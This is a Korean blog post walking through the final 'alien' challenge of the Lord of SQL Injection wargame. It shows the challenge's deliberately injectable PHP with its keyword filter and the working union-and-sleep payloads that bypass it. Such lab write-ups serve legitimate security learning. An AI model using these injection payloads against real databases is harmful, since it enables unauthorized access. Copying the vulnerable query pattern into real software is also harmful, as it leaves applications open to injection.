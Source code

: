 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - alien 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


와 드디어 `Lord of SQL Injection`을 `All Clear` 했다.  

신난다!!  

마지막 문제의 이름은 `alien`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------
query : select id from prob_alien where no=
-----------------------------------------------------------------------------

----------------------------------------------------------------------------
query2 : select id from prob_alien where no=''
----------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

예전에 뭔가 `POXX`에서 비슷한 문제가 있었던 것 같은데 잘 기억이 안난다.  

`Write-up`도 어딘가에 있을 것 같은데 못찾겠다.  

문제를 풀기 위해서는 총 4개의 `조건문`을 통과해야 한다.  

1. result !== "admin" : 결과 값이 admin이 아니면 exit => admin 이어야 함 
2. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
3. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
4. result === "admin" : 결과 값이 admin이면 solve => admin 이어야 함  

1번과 2번은 `no`에 `싱글쿼터`가 없지만, 3번과 4번 조건문에서는 `싱글쿼터`가 존재한다.  

싱글쿼터가 없을 때와 있을 때를 우회 해 원하는 값을 뽑는 것은 생각보다 쉽다.  

```
?no=1 union select 1#' union select '1
```

위와 같이 입력하면 완성되는 `$query`와 `$query2`는 다음과 같다.  

```
$query1 : select id from prob_alien where no=1 union select 1#' union select '1
```

```
$query2 : select id from prob_alien where no='1 union select 1#' union select '1'
```

첫 번째 쿼리의 경우, `#`이 주석 처리 되기 때문에 `#` 이후의 `' union select '1`은 체크하지 않는다.  

반면 두 번째 쿼리에서는 `1 union select 1#` 까지가 `no`의 값으로 들어가기 때문에 `#` 이후의 `union select '1'`이 실행된다.  

여기까진 쉽게 알아냈는데, 문제는 한 쿼리문으로 어쩔 때는 `admin`이어야 하고 어쩔 때는 `admin`이면 안되는 쿼리문을 만들어야 하는 것이었다.  

이것도 주변에 물어봐서 풀 수 있었는데, 바로 `시간`을 활용하면 됬다.  

```
?no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
```

먼저 첫 번째 쿼리를 살펴보면 다음과 같다.  

`!sleep(1)&&now()%2=1` 은 현재 시간에 따라서 `0` 혹은 `1`을 반환 해 준다.  

이 후, `hex(10 + 0 OR 1)`이 되는데, 이 때 `hex(10)`은 `A`가, `hex(11)`은 `B`가 된다.  

이를 `lower()`를 통해 소문자로 바꾼 후, `concat()`을 통해서 `0x646d696e`와 합친다.  

`0x646d696e`는 `dmin`이므로, 최종적인 결과 값은 시간에 따라서 `admin` 혹은 `bdmin`이 될 것이다.  

`sleep(1)`을 걸어서 첫 번째가 `0`이라면 바로 다음 두번째로 쿼리를 실행할 때는 `1`이 나오도록 했다.  

두 번째 쿼리에서는 `hex(10+`가 아니라 `hex(9+`를 했다.  

나와야 하는 결과 값을 살펴보면 순서대로 `hex(10) -> hex(11) -> hex(11) -> hex(10)`이다.  

하지만 계속해서 `sleep(1)`을 실행하게 되면 무조건 `hex(10) -> hex(11) -> hex(10) -> hex(11)` 혹은 `hex(11) -> hex(10) -> hex(11) -> hex(10)`이 나오게 된다.  

여기서 `hex(10)`만 제대로 나오면 되고 `hex(11)`은 다른 값이 나와도 상관 없으므로, 두 번째 쿼리에서 `hex(9+`로 바꿔 주어 `hex(10) -> hex(11) -> hex(9) -> hex(10)`이 나오게 했다.  

그러면 나오는 결과는 순서대로 `admin -> bdmin -> 9dmin -> admin`이 되어 문제를 풀 수 있다.  

다만, 처음 쿼리를 실행할 때 `admin`이 나올 수 있는 시간이어야 하므로 바로 한 번에 문제가 풀리지는 않는다.  

```php
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id from prob_alien where no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_alien where no='1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#'
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

ALIEN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

`ALIEN Clear!!`

드디어 `Lord of SQL Injection`을 `ALL Clear` 했다!  

아 너무 뿌듯하다 ㅠㅠ  

모르는게 너무 많아서 주변에 많이 물어보면서 풀었는데, 이 부분이 좀 아쉽다.  

더 열심히 공부해서 아무한테도 안물어보고 문제를 슝슝 풀 수 있게 되었으면 좋겠다!  

이제 풀다 말았던 `pwnable.kr`을 다시 풀어야 겠다. ㅎㅎ  

`Load of SQL Injection All Clear!!`  

![](/images/los/alien/alien_01.png)